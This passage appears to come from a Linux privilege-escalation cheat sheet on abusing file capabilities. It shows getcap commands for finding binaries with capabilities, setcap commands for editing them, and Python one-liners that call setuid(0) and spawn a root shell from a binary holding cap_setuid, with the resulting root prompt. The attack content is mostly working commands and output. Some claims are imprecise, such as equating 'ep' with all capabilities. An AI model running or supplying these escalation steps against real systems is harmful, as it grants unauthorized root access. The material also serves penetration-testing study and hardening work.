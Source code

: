 You can **search binaries with capabilities** using:

```python
getcap -r / 2>/dev/null
.
.
/usr/bin/python2.6 = cap_setuid+ep
```

Having the capability `ep` means the binary has all the capabilities.

```python
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@debian:~#
```

#### List capabilities of binaries

```python
╭─swissky@lab ~  
╰─$ /usr/bin/getcap -r  /usr/bin
/usr/bin/fping                = cap_net_raw+ep
/usr/bin/dumpcap              = cap_dac_override,cap_net_admin,cap_net_raw+eip
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/rlogin               = cap_net_bind_service+ep
/usr/bin/ping                 = cap_net_raw+ep
/usr/bin/rsh                  = cap_net_bind_service+ep
/usr/bin/rcp                  = cap_net_bind_service+ep
```

#### Edit capabilities

```bash
/usr/bin/setcap -r /bin/ping            # remove
/usr/bin/setcap cap_net_raw+p /bin/ping # add
```

#### Interesting capabilities

Having the capability =ep means the binary has all the capabilities.

```bash
$ getcap openssl /usr/bin/openssl 
openssl=ep
```

Alternatively the following capabilities can be used in order to upgrade your current privileges.

```bash
cap_dac_read_search # read anything
cap_setuid+ep # setuid
```

Example of privilege escalation with `cap_setuid+ep`

```bash
$ sudo /usr/bin/setcap cap_setuid+ep /usr/bin/python2.7

$ python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
sh-5.0# id
uid=0(root) gid=1000(swissky)
```
